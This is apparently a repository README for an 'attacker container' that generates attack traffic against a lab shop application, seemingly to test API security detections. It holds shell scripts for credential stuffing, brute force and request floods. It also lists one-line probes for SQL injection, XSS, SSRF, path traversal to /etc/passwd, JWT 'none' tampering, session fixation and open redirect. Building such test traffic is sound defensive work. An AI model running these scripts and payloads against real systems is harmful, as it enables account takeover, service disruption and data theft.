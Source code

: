 # Attacker Container


```bash
# Directory structure for attack_scripts/
attack_scripts/
├── 1_credential_stuffing.sh
├── 2_password_reset_abuse.sh
├── 3_auth_endpoint_errors.sh
├── 4_rate_limit_abuse.sh
├── 5_http_protocol_misconfig.sh
├── 6_high_traffic_endpoint.sh
├── 7_4xx_error_generation.sh
├── 8_method_enumeration.sh
└── start_attacks.sh
```

**1_credential_stuffing.sh** (api_token_excessive_error_rates_to_auth_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/signin"
TOKEN="fixed_malicious_token_123"

for i in $(seq 1 30); do
  curl -X POST "$TARGET" \
    -H "Authorization: Bearer $TOKEN" \
    -d "username=user$i&password=badpassword" &
done
wait
```

**2_password_reset_abuse.sh** (api_token_excessive_error_rates_to_reset_password_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/reset_password"
TOKEN="fixed_malicious_token_456"

for i in $(seq 1 30); do
  curl -X POST "$TARGET" \
    -H "Authorization: Bearer $TOKEN" \
    -d "email=user$i@example.com" &
done
wait
```

**3_auth_endpoint_errors.sh** (api_token_excessive_error_rates):
```bash
#!/bin/sh
ENDPOINTS=("signin" "signup" "auth" "authenticate")
TOKEN="fixed_malicious_token_789"

for endpoint in "${ENDPOINTS[@]}"; do
  for i in $(seq 1 10); do
    curl -X POST "${BASE_URL}/${endpoint}" \
      -H "Authorization: Bearer $TOKEN" \
      -d "username=user$i&password=wrong" &
  done
done
wait
```

**4_rate_limit_abuse.sh** (api_rate_limit + api_high_traffic_to_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/product/1"
hey -z 1m -c 50 -q 10 "$TARGET"
```

**5_http_protocol_misconfig.sh** (security_misconfig_http_protocol):
```bash
#!/bin/sh
# Test HTTP endpoints that should be HTTPS
curl -I http://${TARGET_HOST}:8080${BASE_URL}/profile
curl -X POST http://${TARGET_HOST}:8080${BASE_URL}/token
```

**6_high_traffic_endpoint.sh** (api_high_traffic_to_endpoint):
```bash
#!/bin/sh
siege -b -t1M -c 25 "${BASE_URL}/multi_method"
```

**7_4xx_error_generation.sh** (4XX_api_error_code_to_endpoint):
```bash
#!/bin/sh
# Generate 401/403 errors
curl -H "Content-Type: application/json" "${BASE_URL}/profile"
curl -X PUT "${BASE_URL}/multi_method"
```

**8_method_enumeration.sh** (api_methods_to_endpoint_with_same_token):
```bash
#!/bin/sh
TOKEN="fixed_malicious_token_321"
ENDPOINT="${BASE_URL}/multi_method"

for method in GET POST PUT DELETE PATCH; do
  curl -X $method "$ENDPOINT" \
    -H "Authorization: Bearer $TOKEN"
done
```

**start_attacks.sh** (Main executor):
```bash
#!/bin/sh
export BASE_URL="http://${TARGET_HOST}:8080"  # Set this in Docker run command

## Attacks sequentially with 5s spacing
./1_credential_stuffing.sh && sleep 5
./2_password_reset_abuse.sh && sleep 5
./3_auth_endpoint_errors.sh && sleep 5
./4_rate_limit_abuse.sh &  # Run in background
./5_http_protocol_misconfig.sh
./6_high_traffic_endpoint.sh
./7_4xx_error_generation.sh
./8_method_enumeration.sh
wait
```


# Extra simulations

```bash
# Container setup (run this first)
docker run -it --network host --name attacker alpine sh
apk add curl nmap sqlmap hydra nikto

# ----------------------------------
# 1. Credential Stuffing Attacks
# Targets: /signin, /auth, /authenticate

# Basic password spraying
for user in $(cat users.txt); do
  curl -X POST "http://frontend:8080${BASE_URL}/signin" \
    -d "username=${user}&password=Spring2023!"
done

# ----------------------------------
# 2. SQL Injection Probes
# Targets: /signup, /profile, /product/{id}

# SQLi in product endpoint
curl "http://frontend:8080${BASE_URL}/product/1'%20OR%201=1--"

# Time-based blind SQLi
curl "http://frontend:8080${BASE_URL}/profile?id=1%20AND%201=SLEEP(10)"

# ----------------------------------
# 3. XSS Testing
# Targets: /product/{id}, /profile, /chatbot

# Simple XSS probe
curl -X POST "http://frontend:8080${BASE_URL}/bot" \
  -d 'message=<script>alert(1)</script>'

# ----------------------------------
# 4. Broken Authentication
# Targets: /session/renew, /oauth, /token

# Session fixation test
curl -v -b "shop_session-id=attacker_session" \
  "http://frontend:8080${BASE_URL}/session/renew"

# ----------------------------------
# 5. SSRF Attempts
# Targets: /product-meta, /assistant

curl "http://frontend:8080${BASE_URL}/product-meta/1,2,http://internal-server"

# ----------------------------------
# 6. Directory Traversal
# Targets: /static/, /profile

curl "http://frontend:8080${BASE_URL}/static../etc/passwd"

# ----------------------------------
# 7. API Abuse
# Targets: /multi_method, /token

# Unexpected method testing
curl -X TRACE "http://frontend:8080${BASE_URL}/multi_method"

# ----------------------------------
# 8. Rate Limiting Tests
# Targets: /signin, /oauth

# Brute force simulation
for i in {1..100}; do
  curl -X POST "http://frontend:8080${BASE_URL}/signin" \
    -d "username=admin&password=guess${i}"
done

# ----------------------------------
# 9. JWT Tampering
# Targets: /auth, /token

# Modified JWT header
curl -H "Authorization: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIn0." \
  "http://frontend:8080${BASE_URL}/profile"

# ----------------------------------
# 10. Open Redirect
# Targets: /oauth, /logout

curl "http://frontend:8080${BASE_URL}/logout?redirect=http://malicious-site.com"
```
# Start attacks
kubectl create -f attacker-deployment.yaml

# Stop attacks (destructive)
kubectl delete deployment attacker

# Temporary pause (preserves logs)
kubectl scale deployment attacker --replicas=0

# View logs
kubectl logs deployment/attacker -f
